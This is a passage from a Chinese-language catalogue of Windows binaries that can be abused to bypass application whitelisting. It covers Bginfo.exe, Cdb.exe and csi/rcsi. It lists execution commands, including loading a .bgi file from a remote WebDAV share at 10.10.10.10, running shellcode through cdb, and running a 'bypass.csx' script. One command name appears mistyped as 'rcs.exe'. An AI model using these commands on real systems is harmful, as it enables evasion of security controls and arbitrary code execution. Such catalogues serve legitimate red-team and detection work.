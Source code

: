 ```
https://securityboulevard.com/2018/07/attackers-test-new-document-attack-vector-that-slips-past-office-defenses/
```

## Bginfo.exe
- 使用说明：

BgInfo是SysInternals套件中的实用程序，它可以在桌面背景中直接显示计算机的系统信息。

- 执行方式：
```
bginfo.exe bginfo.bgi /popup /nolicprompt
\\10.10.10.10\webdav\bginfo.exe bginfo.bgi /popup /nolicprompt
\\live.sysinternals.com\Tools\bginfo.exe \\10.10.10.10\webdav\bginfo.bgi /popup /nolicprompt
```
- 参考资料：
```
https://pentestlab.blog/2017/06/05/applocker-bypass-bginfo/
https://github.com/3gstudent/bgi-creater
```

## Cdb.exe
- 使用说明：

 Windows Debug工具包中的一个调试工具。
 
 文件路径:
```
C:\Program Files (x86)\Windows Kits\10\Debuggers\x64\cdb.exe
C:\Program Files (x86)\Windows Kits\10\Debuggers\x86\cdb.exe

```
- 执行方式：
```
cdb.exe -cf x64_calc.wds -o notepad.exe
```
- 参考资料：
```
http://www.exploit-monday.com/2016/08/windbg-cdb-shellcode-runner.html
https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/cdb-command-line-options
https://gist.github.com/mattifestation/94e2b0a9e3fe1ac0a433b5c3e6bd0bda
```

## csi.exe
- 使用说明：

和dnx一样csi和rcsi都可以执行C#代码，但csi是交互式的而rcsi不是。

文件路径:
```

c:\Program Files (x86)\Microsoft Visual Studio\2017\Community\MSBuild\15.0\Bin\Roslyn\csi.exe
c:\Program Files (x86)\Microsoft Web Tools\Packages\Microsoft.Net.Compilers.X.Y.Z\tools\csi.exe

```
- 执行方式：
```
rcs.exe bypass.csx
```
- 参考资料：
```
https://web.archive.org/web/20161008143428/http://subt0x10.blogspot.com/2016/09/application-whitelisting-bypass-csiexe.html
https://enigma0x3.net/2016/11/21/bypassing-application-whitelisting-by-using-rcsi-exe/
```
